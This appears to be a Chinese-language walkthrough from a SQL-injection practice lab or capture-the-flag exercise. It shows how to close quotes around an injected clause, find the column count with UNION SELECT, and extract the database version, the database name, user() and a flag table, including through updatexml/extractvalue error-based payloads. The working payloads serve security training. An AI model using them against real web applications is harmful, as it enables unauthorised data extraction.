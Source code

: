因此更换策略，直接构造，使其前后闭合，尝试：()

```sql
?id=1'' 成功
?id=1' and 1=1 and '1 成功
?id=1' and 1=2 and '1  失败 
```

**证明构造有效，用两个单引号闭合前后单引号，中间插入语句，可以进入sql执行逻辑**

开始注入：**(注意： 这里用单引号进行了前后的闭合，order by未处于查询语句最后，将失去检测效果)**

**不过有替代办法：我们知道，union联合查询只有在前后查询语句的对象数量一致时才会成功执行，因此我们可以利用这一原理对数据位数进行爆破：**

```sql
?id=-1' union select 1'   报错回显：The used SELECT statements have a different number of columns
继续：
?id=-1' union select 1,2'报错
?id=-1' union select 1,2,3'  成功
?id=-1' union select 1,2,3,4' 报错
因此得到位数为四，同时得到回显位为：2和3
```

![img](assets/1666778044240-5ed8526d-a811-4be1-a45e-91315200b2de.png)

查询数据即可：

?id=-1' union select  1,@@version,database()  '

?id=-1' union select 1,(select group_concat(0x7e,flag) from flag), 3'

或者结合xpath报错:

?id=-1' union select 1,2, (updatexml(1,concat(0x7e,(select user()),0x7e),1))'

?id=-1' union select(updatexml(1,concat(0x7e,(@@basedir),0x7e),1))'

?id=-1' union select(extractvalue(1,concat(0x7e,user(),0x7e)))'

